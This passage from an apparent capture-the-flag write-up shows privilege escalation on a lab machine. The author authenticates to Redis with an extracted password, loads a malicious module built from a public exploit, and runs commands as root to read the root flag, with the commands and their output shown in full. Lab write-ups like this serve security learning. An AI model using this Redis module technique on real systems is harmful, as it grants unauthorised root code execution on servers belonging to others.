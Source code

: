 Surprisingly it seemed to work, the string "auth F2WHqJUz2WEz=Gqq" seems to have the correct format of a redis authentication command.

### Redis PWN

Let's go back to the victim system and start enumerating it's redis instance.

We confirm that authentication is needed and we have can enumerate the version number.
```bash
dan_smith@shared:~$ redis-cli
127.0.0.1:6379> info
NOAUTH Authentication required.


127.0.0.1:6379> info server
# Server
redis_version:6.0.15
```

Let's try authenticated with the data that we previously extracted.
```bash
127.0.0.1:6379> AUTH F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> 
```

#### Malicious Module Exploit

We know that the authentication data that we extracted is of the redis administrator/root user based on the ownership of the redis_connector binary so we could try this [exploit](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) knowing that we can probably load modules into redis.

After building the exploit in our machine we now have a .so file that we will attempt to load into redis.
```bash
❯ file module.so
module.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, with debug_info, not stripped
```

We transfer it to the victim machine.
```bash
❯ scp -i dan.key ../exploits/RedisModules-ExecuteCommand/module.so dan_smith@shared.htb:/dev/shm/module.so
```

And then proceed to test if we can load the module and if we have code execution.
```bash
127.0.0.1:6379> AUTH F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> MODULE LOAD /dev/shm/module.so
OK
127.0.0.1:6379> MODULE LIST
1) 1) "name"
   2) "system"
   3) "ver"
   4) (integer) 1
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
```
It worked, for some reason we can't get a shell with this method but we can read the contents of the root.txt and get our root flag.
```bash
127.0.0.1:6379> AUTH F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> MODULE LOAD /dev/shm/module.so
OK
127.0.0.1:6379> system.exec "cat /root/root.txt"
"6993d7a0acfb8b0..."
```